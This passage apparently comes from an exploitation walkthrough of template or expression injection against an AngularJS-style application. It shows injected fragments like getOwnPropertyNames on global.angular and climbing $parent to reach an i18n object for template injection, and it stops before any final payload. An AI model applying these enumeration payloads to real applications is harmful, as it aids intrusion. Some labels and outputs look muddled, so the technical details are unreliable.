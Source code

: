 ```
	"uv": true,
	"ipv6": true,
	"tls_npn": true,
	"tls_alpn": true,
	"tls_sni": true,
	"tls_ocsp": true,
	"tls": true
	}
	},
	"console": {}
	}
```

And we've gotten it! 

### 3. Directory Traversal 
Now that we've confirmed the structure, we can access it using `.` like a regular angular element. Let’s get the property names of the angular attributes, appending `.getOwnPropertyNames(global.angular)')()` to the previous payload. 

```
[ "$$childTail", "$$childHead", "$$nextSibling", "$$watchers", "$$listeners", "$$listenerCount", "$$watchersCount", "$id", "$$ChildScope", "$parent", "$$prevSibling", "$$transcluded" 
```

Now we have the angular attributes. Let’s move further up the directory with the $parent, which refers to the $scope of the parent element, using `.getOwnPropertyNames(global.angular.$parent.$parent)')()`

We get a 
```[
	"$SCOPE",
	"$SCOPE"
	]
```

Which means that both are valid controllers (constructors). Let’s try to find the i18n object with `$parent.$parent.i18n`.

```[
	"$SCOPE",
	null
	]
```

Hmm, that’s not quite it. Let’s try taking a step back and move up one level with `$parent.i18n`.

```
[
	"$SCOPE",
	{}
	]
```

And we’ve got it! We’re now in the `i18n` object as denoted by `{}`. We should be able to enumerate templates now, so let’s try appending a template to it.
